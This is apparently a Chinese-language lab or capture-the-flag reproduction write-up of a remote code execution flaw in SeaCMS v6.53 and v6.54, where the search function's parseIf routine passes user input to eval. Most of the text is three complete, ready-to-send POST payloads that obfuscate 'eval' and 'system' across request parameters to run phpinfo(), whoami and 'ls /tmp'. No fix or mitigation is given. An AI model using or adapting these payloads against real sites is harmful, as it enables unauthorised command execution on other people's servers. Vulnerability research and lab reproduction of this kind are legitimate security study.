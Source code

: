 # seacms-v6.53命令执行漏洞

## 一、漏洞描述

echoSearchPage 函数中的 content 变量传给了 parself 函数，跟踪代码，找到 ./include/main.class.php，可以看到 parseIf 函数会将 content 内容 eval  执行，造成命令执行。

![](_v_images/20200527182210256_9173.png)


## 二、影响版本

 seacms v6.53、seacmsv6.54 版本

## 三、复现过程

### 1.抓取搜索框数据包将原本内容换为网上 Poc 的内容

searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo();

![](_v_images/20200527184837945_27168.png)


![](_v_images/20200527185111991_27068.png)


### 2.将数据包放过 查看返回结果 可见写入 9[] 的代码被执行

![](_v_images/20200527185229499_30175.png)


### 3.进一步利用，可以执行系统命令

searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("whoami");

![](_v_images/20200527185518860_26945.png)



### 4.获取 Flag
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("ls /tmp");
![](_v_images/20200527190041412_23974.png)

